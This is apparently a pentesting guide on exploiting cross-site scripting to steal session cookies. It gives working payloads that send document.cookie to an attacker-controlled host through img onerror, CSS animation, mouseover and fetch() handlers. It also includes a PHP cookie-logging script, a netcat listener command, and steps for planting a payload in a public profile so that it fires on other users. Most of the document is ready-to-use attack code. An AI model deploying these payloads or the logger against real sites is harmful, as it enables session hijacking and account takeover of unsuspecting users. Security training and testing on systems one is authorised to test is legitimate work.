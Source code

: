 # Cross-Site Scripting (XSS)

**Cross-Site Scripting (XSS)** vulnerabilities are among the most common web application vulnerabilities and can lead to severe security issues, including session hijacking. This guide focuses on exploiting XSS vulnerabilities to obtain valid session identifiers, such as session cookies, in a generic manner that can be applied to various web applications.

#### 🔑 Requirements for XSS Attacks

For an XSS attack to successfully leak session cookies, the following conditions must be met:

1. **Session cookies must be included in all HTTP requests.**
2. **Session cookies must be accessible via JavaScript** (i.e., the `HTTPOnly` attribute should be absent).

#### 🎯 Crafting XSS Payloads

To exploit an XSS vulnerability, you can use payloads that trigger automatically through event handlers. Here are some examples of payloads that can be used in input fields:

*   **Basic Payloads**:

    ```javascript
    javascriptCopy Code"><img src=x onerror=alert(document.domain)>
    "><img src=x onerror=confirm(1)>
    "><img src=x onerror=prompt(1)>
    ```
*   **Advanced Payload Using CSS Animation**:

    {% code overflow="wrap" %}
    ```javascript
    <style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<YOUR_IP>:8000/log.php?c=' + document.cookie;"></video>
    ```
    {% endcode %}

{% hint style="info" %}
In the real world, we can use something like [XSSHunter (now deprecated)](https://xsshunter.com/), [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) or [Project Interactsh](https://app.interactsh.com/). A default PHP Server or Netcat may not send data in the correct form when the target web application utilizes HTTPS.
{% endhint %}

These payloads utilize the `onerror` event of an image tag to execute JavaScript when the image fails to load.

#### 📜 Obtaining Session Cookies via XSS

To capture a victim's session cookie, you can create a cookie-logging script. Here’s a generic example of a PHP script that logs cookies:

```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.example.com/");
exit;
?>
```

This script waits for a request containing the session cookie and logs it to a file. You can host this script on any server you control.

#### 🧪 Simulating the Attack

1. **Update the Profile**: In a web application where you can edit user profile fields, insert your crafted payload into a field that is displayed publicly.
2. **Trigger the Payload**: The payload will execute when the profile is viewed by another user. This could be a public profile or a shared link.
3. **Capture the Cookie**: When the victim views the profile, the payload will send the session cookie to your logging script. You can check the log file to see if the cookie has been captured.

#### 🔄 Using Netcat for Cookie Capture

Instead of a logging script, you can use **Netcat** to capture cookies:

1.  **Craft a Payload**: Use a payload that sends the cookie to your listening Netcat instance:

    {% code overflow="wrap" %}
    ```javascript
    <h1 onmouseover='document.write(`<img src="http://<YOUR_IP>:8000?cookie=${btoa(document.cookie)}">`)'>Hover over me</h1>
    ```
    {% endcode %}
2.  **Start Netcat**: Listen for incoming connections:

    ```bash
    nc -nlvp 8000
    ```
3. **Simulate the Victim's Action**: When the victim hovers over the element containing your payload, it will trigger a request to your Netcat listener, sending the session cookie.

#### 🔍 Stealthier Payloads

For a more discreet approach, you can use the `fetch()` method to send cookies without redirecting the victim:

```javascript
<script>fetch(`http://<YOUR_IP>:8000?cookie=${btoa(document.cookie)}`)</script>
```
